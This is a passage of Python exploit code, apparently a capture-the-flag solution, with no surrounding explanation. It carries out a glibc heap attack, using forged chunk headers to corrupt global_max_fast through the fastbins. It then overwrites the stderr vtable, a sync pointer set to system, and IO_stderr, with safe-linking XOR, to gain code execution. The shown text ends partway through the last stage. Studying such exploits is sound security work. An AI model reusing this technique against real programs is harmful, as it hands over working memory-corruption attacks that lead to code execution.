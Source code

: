 ```python

#--------------- attack fastbin global-----------------------
pay= p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x421)
pay+=(p64(0)+p64(0x21))*0x41
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
edit(0x1200,pay)
dele(0x1230)# 0x420

edit(0x30,p64(libc_base+0x1e0ff0)*2+p64(0)+p64(global_max_fast-0x20-3))# 
add(0x500)
#----------------attack stderr_vtabe---------------------------
# p &main_arena.fastbinsY
key2 = (mmp+0x1030)>>12

pay= p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x1631)# stderr_vtabe
edit(0x1000,pay)
pay= '\x00'*0x651
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
edit(0x1fff,pay)# max offset

dele(0x1030)# 0x1630 stderr_vtabe will get +0x1030
edit(0x1030,p64(key2^(IO_helper_jumps)))

add(0x1620)
#-----------------attack sync---------------------------------
pay= p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x1c41)# sync
edit(0x1000,pay)
pay='\x00'*0xc61
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
edit(0x1fff,pay)

dele(0x1030)
edit(0x1030,p64(key2^system))
add(0x1c30)
#-----------------attack IO_stdderr-----------------------------

pay= p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x1481)# IO_stdderr
edit(0x1000,pay)
pay='\x00'*0x4a1
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
edit(0x1fff,pay)
dele(0x1030)

```